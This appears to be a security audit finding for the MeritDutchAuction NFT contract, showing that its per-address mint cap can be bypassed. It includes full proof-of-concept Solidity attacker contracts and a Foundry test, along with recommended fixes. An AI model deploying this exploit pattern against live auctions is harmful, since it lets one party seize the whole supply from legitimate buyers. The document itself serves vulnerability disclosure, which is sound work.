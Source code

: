 AkshaySrivastav

high

# `MeritDutchAuction.CAP_PER_ADDRESS` can be bypassed easily

## Summary
The `MeritDutchAuction` contract has a `CAP_PER_ADDRESS` for an account but this limit can be bypassed easily resulting in an account holding all possible NFTs.

## Vulnerability Detail
The `MeritDutchAuction` contract intends to limit an account from minting more than `CAP_PER_ADDRESS` NFTs. But an attacker can use smart contracts to mint all possible NFTs to himself in a single transaction.

The attacker can dynamically deploy different smart contracts that each mint `CAP_PER_ADDRESS` to itself. Then each contract can transfer all the minted NFTs to a single attacker controlled address. Using this method the attacker can capture `MINT_CAP` (currently 10,000) NFTs. All of this happens in a single transaction.

POC:
These new contracts and test case were added to `MeritDutchAuction.t.sol`.
```solidity

contract Buyer1 {
    MeritDutchAuction public immutable auction;
    Buyer2 public buyer2;

    constructor(address _auction) {
        auction = MeritDutchAuction(_auction);
        buyer2 = new Buyer2(_auction);
    }

    function mintNFT() public payable {
        auction.mint{value: msg.value}(4);
    }
    fallback() external payable {
        buyer2.mintMoreNFT{value: msg.value}();
    }
}

contract Buyer2 {
    MeritDutchAuction public immutable auction;

    constructor(address _auction) {
        auction = MeritDutchAuction(_auction);
    }
    function mintMoreNFT() external payable {
        auction.mint{value: msg.value}(4);

        uint numTokens = auction.nft().balanceOf(address(this));
        uint[] memory tokenIds = new uint[](numTokens);
        for (uint i; i < numTokens; i++) {
            tokenIds[i] = auction.nft().tokenOfOwnerByIndex(address(this), i);
        }

        for (uint i; i < numTokens; i++) {
            auction.nft().transferFrom(address(this), msg.sender, tokenIds[i]);
        }
    }
}
```
```solidity
    function test_audit_bypassCap() public {
        Buyer1 buyer1 = new Buyer1(address(auction));

        vm.startPrank(wallet1);
        assertEq(auction.nft().balanceOf(address(buyer1)), 0);

        vm.warp(startTime);
        buyer1.mintNFT{value: START_PRICE * 8}();

        assertEq(auction.nft().balanceOf(address(buyer1)), 8);
    }
```

In this test case, a single account was able to capture 8 NFTs in a single transaction. By performing this attack repeatedly the attacker can mint 10,000 NFTs to himself in a single txn as soon as the auction starts. The legitimate users won't even get a chance to mint any NFT for themselves.

## Impact
A single user can mint all NFTs (upto `MINT_CAP`) to himself in a single txn bypassing the `CAP_PER_ADDRESS` limit. 

This attack breaks the assumption of protocol that no account can mint more than `CAP_PER_ADDRESS` NFTs. Hence results in the attacker holding all NFTs which the protocol always wanted to protect against.

## Code Snippet
https://github.com/sherlock-audit/2023-07-beam-auction/blob/main/dutch-nft/src/MeritDutchAuction.sol#L141

## Tool used

Manual Review

## Recommendation
Different mitigation strategies can be applied here to fix this issue like:
- Consider adding a `tx.origin == msg.sender` check but this will prevent all contracts from minting an NFT.
- Consider adding a per block mint limit so that only a small number of NFTs can be minted in a single block.
